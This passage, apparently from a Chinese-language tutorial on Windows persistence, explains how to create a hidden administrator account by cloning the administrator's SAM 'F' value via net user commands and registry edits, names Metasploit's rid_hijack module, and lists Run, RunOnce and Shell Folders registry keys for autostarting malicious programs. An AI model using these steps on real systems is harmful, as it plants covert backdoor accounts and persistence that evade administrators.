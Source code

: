 Windows使用安全帐户管理器（SAM）来存储本地用户和内置帐户的安全描述符，每个帐户都有一个指定的RID来标识它。我们新建用户，之后导出注册表，并用administrator的f值替换新用户的f值，删掉新用户，再导入注册表，新用户可以正常使用，但net user看不到，也删不掉，只能通过注册表操作。

```
net user lce$ lce.123 /add  //创建匿名用户
net localgroup administrators lce$ /add //加入管理员组
目标注册表键值位置:HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users
//PS：SAM键值默认是system权限修改，所以修改一下SAM键的权限，给予administrator完全控制和读取权限
导出lce$的值，并把administrator用户对应的项的F值复制到lce$对应项中的F值
net user lce$ /del //删掉lce$
使用导出的注册表文件，用先前导出的注册表键值对注册表进行修改，重新还原之前的匿名用户  //还原匿名用户lce$

相关工具:msf：post/windows/manage/rid_hijack，Windows-User-Clone.ps1，Create-Clone.ps1
```

### <a class="reference-link" name="3.%E8%87%AA%E5%90%AF%E5%8A%A8"></a>3.自启动

<a class="reference-link" name="%E6%B3%A8%E5%86%8C%E8%A1%A8%E8%87%AA%E5%90%AF%E5%8A%A8%E9%A1%B9"></a>**注册表自启动项**

注册表简介：类似一种树状数据库。

```
HKEY_CLASSES_ROOT    用于存储一些文档类型、类、类的关联属性
HKEY_CURRENT_CONFIG    用户存储有关本地计算机系统的当前硬件配置文件信息
HKEY_CURRENT_USER    用于存储当前用户配置项
HKEY_CURRENT_USER_LOCAL_SETTINGS    用于存储当前用户对计算机的配置项
HKEY_LOCAL_MACHINE    用于存储当前用户物理状态
HKEY_USERS    用于存储新用户的默认配置项
```

注册表自启动键值位置：

```
修改自动项，达到开机自启动恶意程序
用户：
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
管理员：
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
```

<a class="reference-link" name="%E5%BC%80%E5%A7%8B%E8%8F%9C%E5%8D%95%E5%90%AF%E5%8A%A8%E9%A1%B9"></a>**开始菜单启动项**

指示启动文件夹的位置，其中User Shell Folders优先于Shell Folders。

```
修改注册表，可以修改开始菜单启动项
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
```
